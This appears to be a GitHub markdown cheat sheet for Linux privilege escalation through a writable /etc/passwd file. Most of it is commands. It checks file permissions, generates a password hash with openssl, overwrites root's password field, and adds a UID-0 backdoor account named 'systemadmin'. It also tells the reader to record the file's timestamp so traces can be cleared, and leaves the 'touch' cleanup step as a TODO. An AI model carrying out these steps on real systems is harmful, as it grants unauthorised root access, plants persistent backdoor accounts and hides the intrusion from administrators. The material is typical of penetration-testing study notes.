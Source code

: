 # Living off the Land

## 01 - Detect

Weak File Permissions - Writable `/etc/passwd`

```
$ ls -l /etc/passwd
```

## 02 - Exploit

Generate a new hash password.

```
$ openssl passwd -1 thispass123
```

For older linux systems

```
$ openssl passwd -1 -salt new thispass123
```

Before resetting the password. Take note of the timestamp to clear traces ahead of time.

```
$ stat /etc/passwd
```

### 2.1 - Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
```

Authenticate as root with the password

```
$ su root
```

### 2.2 - Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

Note: replace `<new_hash>` with the hashed password

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)